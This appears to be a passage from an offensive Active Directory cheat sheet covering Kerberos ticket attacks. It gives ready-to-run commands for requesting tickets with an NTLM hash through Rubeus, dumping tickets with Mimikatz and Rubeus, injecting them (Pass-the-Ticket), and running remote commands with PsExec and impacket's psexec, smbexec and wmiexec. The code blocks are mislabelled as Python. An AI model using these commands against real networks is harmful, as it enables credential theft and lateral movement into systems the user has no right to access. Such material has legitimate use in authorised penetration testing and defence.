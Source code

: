 Rubeus:

```python
# Request/Inject ticket
.\\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
```

PsExec:

```python
# Execute a command remotely
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Pass The Ticket (PTT-Attack)

* You can do this two ways. One from Linux and the other from Windows.

Grabbing ticket from Linux:

```python
grep default_ccache_naame /etc/krb5.conf
```

Grabbing ticket from Windows:

Mimikatz:

```python
mimikatz # sekurlsa::tickets /export
```

Rubeus:

```python
.\\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

Using the ticket in Windows/Linux

Linux:

```python
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

Windows:

Inject ticket via Mimikatz:

```python
mimikatz # kerberos::ptt <ticket_kirbi_file>
```
